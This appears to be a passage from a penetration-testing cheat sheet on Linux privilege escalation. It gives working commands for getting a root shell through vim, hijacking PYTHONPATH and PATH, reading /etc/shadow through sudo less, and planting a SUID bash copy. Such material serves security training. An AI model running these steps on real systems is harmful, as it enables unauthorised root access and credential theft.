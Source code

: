 $ sudo -l
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
In this example the user demo can run vim as root, it is now trivial to get a shell by adding an ssh key into the root directory or by calling sh.

sudo vim -c '!sh'
SETENV
This directive allows the user to set an environment variable while executing something:

$ sudo -l
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
This example, based on HTB machine Admirer, was vulnerable to PYTHONPATH hijacking in order to load an arbitrary python library while executing the script as root:

sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
Sudo execution bypassing paths
Jump to read other files or use symlinks. For example in sudeores file: hacker10 ALL= (root) /bin/less /var/log/*

sudo less /var/logs/anything
less>:e /etc/shadow #Jump to read other files using privileged less
ln /etc/shadow /var/log/new
sudo less /var/log/new #Use symlinks to read any file
If a wilcard is used (*), it is even easier:

sudo less /var/log/../../etc/shadow #Read shadow
sudo less /var/log/something /etc/shadow #Red 2 files
Countermeasures: https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/​

Sudo command/SUID binary without command path
If the sudo permission is given to a single command without specifying the path: hacker10 ALL= (root) less you can exploit it by changing the PATH variable

export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
This technique can also be used if a suid binary executes another command without specifying the path to it (always check with strings the content of a weird SUID binary).

​Payload examples to execute.​

SUID binary with command path
If the suid binary executes another command specifying the path, then, you can try to export a function named as the command that the suid file is calling.

For example, if a suid binary calls /usr/sbin/service apache2 start you have to try to create the function and export it:

function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
Then, when you call the suid binary, this function will be executed

LD_PRELOAD
LD_PRELOAD is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.
